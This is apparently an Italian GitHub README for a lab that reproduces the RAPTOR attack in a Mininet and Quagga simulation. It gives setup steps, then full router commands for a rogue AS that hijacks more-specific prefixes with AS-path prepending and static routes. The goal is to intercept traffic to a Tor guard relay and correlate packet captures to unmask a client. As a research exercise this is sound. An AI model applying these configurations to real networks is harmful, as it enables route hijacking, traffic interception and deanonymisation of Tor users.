

# bgp-raptor-attack

## Installazione VM

Scaricare la VM Mininet [http://www.scs.stanford.edu/~jvimal/mininet-sigcomm14/mininet-tutorial-vm-64bit.zip](http://www.scs.stanford.edu/~jvimal/mininet-sigcomm14/mininet-tutorial-vm-64bit.zip).  
Per accedere:

- username: mininet
- password: mininet

## Preparazione mininet

- `$ cd ~`

- `$ git clone https://github.com/mininet/mininet`

- `$ cd mininet`

- `$ git checkout 2.3.0d4`

- `$ ./util/install.sh -a`

- `$ mn --test pingall`

- `$ mn --version`

## Quagga preparation

Scaricare quagga-1.2.4 from [http://download.savannah.gnu.org/releases/quagga/](http://download.savannah.gnu.org/releases/quagga/) nella tua `$HOME` ed estrai il package

- `$ cd ~/quagga-1.2.4`

- `# chown mininet:mininet /var/run/quagga`

- modifica il file `configure`, aggiungendo `${quagga_statedir_prefix}/var/run/quagga` prima di tutte le opzioni del loop su `QUAGGA_STATE_DIR` 

- `$ ./configure --enable-user=mininet --enable-group=mininet`

- `$ make`

---

## Esecuzione dell'attacco

**. Avviare l'ambiente di simulazione**

Eseguo lo script per avviare le istanze degli AS e degli host.

`# python bgp.py`

**. Controllare il percorso del traffico destinato al guard relay**

In un altro terminale avvio una sessione con il daemon `bgpd` dell'AS1.
La password di accesso è `en`.

`$ ./connect-bgpd.sh R1`

Per accedere alla shell di amministratore lancio il comando `enable`; la password è `en`.
Verifico quale AS_PATH R1 sceglie per raggiungere il guard relay G attestato su 12.2.0.1, lanciando il comando:

`bgpd-R1# show ip bgp 12.2.0.1`

L'output sarà simile al seguente.

	BGP routing table entry for 12.2.0.0/23
	Paths: (2 available, best #2, table Default-IP-Routing-Table)
	  Advertised to non peer-group peers:
	  5.0.0.2
	  5 2
		5.0.0.2 from 5.0.0.2 (5.5.5.5)
		  Origin IGP, localpref 100, valid, external
		  Last update: Sat Jun 22 13:28:01 2019

	  2
		2.0.0.2 from 2.0.0.2 (2.2.2.2)
		  Origin IGP, metric 0, localpref 100, valid, external, best
		  Last update: Sat Jun 22 13:27:57 2019

Posso osservare che AS1 inoltra il traffico direttamente verso l'AS2.
Specularmente, R6 inoltra il traffico proveniente dall'exit relay E e destinato al server S direttamente verso l'AS4.

**. Lanciare il Man-in-the-middle attack**

In un altro terminale avvio una sessione con il daemon `bgpd` dell'AS3.
La password di accesso è `en`.

`$ ./connect-bgp.sh R3`

Per accedere alla shell di amministratore lancio il comando `enable`; la password è `en`.
Impongo le route-map.

	bgpd-R3# configure terminal
	bgpd-R3(config)# ip prefix-list evil-prefix-list-12-2 permit 12.2.0.0/24
	bgpd-R3(config)# ip prefix-list evil-prefix-list-12-3 permit 12.3.0.0/24
	bgpd-R3(config)# ip prefix-list evil-prefix-list-14 permit 14.1.0.0/24
	bgpd-R3(config)# route-map evil-route-map-12-2 permit 10
	bgpd-R3(config-route-map)#    match ip address prefix-list evil-prefix-list-12-2
	bgpd-R3(config-route-map)#    set as-path prepend 2
	bgpd-R3(config-route-map)# route-map evil-route-map-12-2 permit 20
	bgpd-R3(config-route-map)#    exit
	bgpd-R3(config)# route-map evil-route-map-12-3 permit 10
	bgpd-R3(config-route-map)#    match ip address prefix-list evil-prefix-list-12-3
	bgpd-R3(config-route-map)#    set as-path prepend 2
	bgpd-R3(config-route-map)# route-map evil-route-map-12-3 permit 20
	bgpd-R3(config-route-map)#    exit
	bgpd-R3(config)# route-map evil-route-map-14 permit 10
	bgpd-R3(config-route-map)#    match ip address prefix-list evil-prefix-list-14
	bgpd-R3(config-route-map)#    set as-path prepend 4
	bgpd-R3(config-route-map)# route-map evil-route-map-14 permit 20
	bgpd-R3(config-route-map)#    exit
	bgpd-R3(config)# router bgp 3
	bgpd-R3(config-router)#   network 12.2.0.0/24
	bgpd-R3(config-router)#   network 12.3.0.0/24
	bgpd-R3(config-router)#   network 14.1.0.0/24
	bgpd-R3(config-router)#   neighbor 6.0.0.1 route-map evil-route-map-12-2 out
	bgpd-R3(config-router)#   neighbor 6.0.0.1 route-map evil-route-map-12-3 out
	bgpd-R3(config-router)#   neighbor 12.0.0.2 route-map evil-route-map-14 out
	bgpd-R3(config-router)#   exit
	bgpd-R3(config)# exit

In un altro terminale avvio una sessione con il daemon `zebra` dell'AS3.
La password di accesso è `en`.

`$ ./connect-zebra.sh R3`

Per accedere alla shell di amministratore lancio il comando `enable`; la password è `en`.
Impongo le rotte statiche per instradare il traffico destinato ai prefissi IP sotto attacco.

	R3# configure terminal
	R3(config)# ip route 12.2.0.0/24 6.0.0.1
	R3(config)# ip route 12.3.0.0/24 6.0.0.1
	R3(config)# ip route 14.1.0.0/24 12.0.0.2
	R3(config)# exit

**. Ricontrollare il percorso del traffico destinato al guard relay**

Nel terminale con il daemon `bgpd` dell'AS1 rilancio l'ultimo comando.
L'output sarà simile al seguente.

	BGP routing table entry for 12.2.0.1
	Paths: (2 available, best #2, table Default-IP-Routing-Table)
	  Advertised to non peer-group peers:
	  2.0.0.2
	  2 5 3
		2.0.0.2 from 2.0.0.2 (2.2.2.2)
		  Origin IGP, localpref 100, valid, external
		  Last update: Sat Jun 22 13:47:42 2019

	  5 3
		5.0.0.2 from 5.0.0.2 (5.5.5.5)
		  Origin IGP, localpref 100, valid, external, best
		  Last update: Sat Jun 22 13:47:39 2019

Posso osservare che durante l'attacco AS1 inoltra il traffico secondo l'AS_PATH AS5, AS3.
Specularmente, R6 inoltra il traffico secondo l'AS_PATH AS5, AS3.

**. Monitorare il traffico**

In altri due terminali separati lancio i seguenti comandi:

`./R3-tcpdump-eth4.sh`

`./R3-tcpdump-eth5.sh`

**. Generare il traffico di prova**

Dal menu di scelta proposto dallo script lanciato al primo passo, scelgo la seconda opzione (`2 - wget over torsocks`).
Lo script lancia sul client C `torsocks` che fa da wrapper a `wget` in modo che recuperi l'home page esposta dal server S tramite la rete Tor.

`> 2`

I TCP ACK che ottengo dagli script lanciati al passo precedente consentono di fare un'analisi di correlazione finalizzata all'individuazione dell'identità del client C che accede al server S.

